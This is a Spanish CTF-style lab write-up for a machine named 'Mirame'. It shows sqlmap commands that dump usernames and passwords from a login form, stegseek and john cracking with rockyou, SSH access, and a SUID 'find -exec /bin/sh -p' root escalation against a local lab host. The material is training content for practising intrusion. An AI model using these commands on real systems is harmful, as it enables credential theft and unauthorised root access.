# Mirame

Laboratorio para practicar el bypass de autenticación e inyección SQL para comprometer la base de datos y escalar privilegios.

## ESCANEO DE PUERTOS



Puertos encontrados: 22, 80

## ENUMERACIÓN DE DIRECTORIOS

Realizamos búsqueda de directorios ocultos pero no vemos nada.

Vemos el contenido del puerto 80 y nos lleva a un panel de login



## INTRUSIÓN

Búscaremos si existen tablas existentes en la base de datos, para ello haremos intrusión mediatne inyeción SQLmap

Busqueda de Bases de Datos

`sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch`



Búsqueda de tablas

`sqlmap -u http://172.17.0.2/index.php --forms -D users --tables --batch`



Búsqueda de columnas

`sqlmap -u http://172.17.0.2/index.php --forms -D users -T usuarios --columns --batch`



Búsqueda de la información de dichas columnas

`sqlmap -u http://172.17.0.2/index.php --forms -D users -T usuarios -C password,username --dump --batch`



Probamos en el panel de login las credenciales de admin y nos muestra lo siguiente



Nos da la opción de añadir una ciudad y ver su temperatura

Nos llama la atención el nombre de “directoriotravieso” el cual buscamos en el navegador y nos da la siguiente imagen



Nos la descargamos y le realizamos steganografía con steghide

Intentamos extraer pero nos pide una contraseña

`steghide extract -sf miramebien.jpg`

Le añadimos un diccionario para hacerle fuerza bruta

`stegseek miramebien.jpg /usr/share/wordlists/rockyou.txt`



Encontramos la contraseña chocolate y nos encuentra un .jpg.out que lo renombraremos con su extensión real “ocultito.zip”

`mv miramebien.jpg.out ocultito.zip`

Al descomprimirlo nos pide otra contraseña, pero primero lo pasaremos a .hash mediante zip2john

`zip2john ocultito.zip > zip.hash`



Y por último le hacemos fuerza bruta con john

`john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash`



Ahora si podemos ver el contenido del secret.txt que contenia



Probamos a entrar por SSH y conseguimos acceso



## ESCALADA DE PRIVILEGIOS

Buscamos binarios que nos puedan ser útil

`find / -perm -4000 -type f 2>/dev/null`



A simple vista vemos el binario “find” como el más apto para escalar.

Investigamos en GTFOBins



Probamos pero seguimos siendo usuario carlos



El problema es que debemos añadir -p en el comando de la siguiente forma:

`find . -exec /bin/sh -p \\ -quit`



Y ahora si ya seremos root.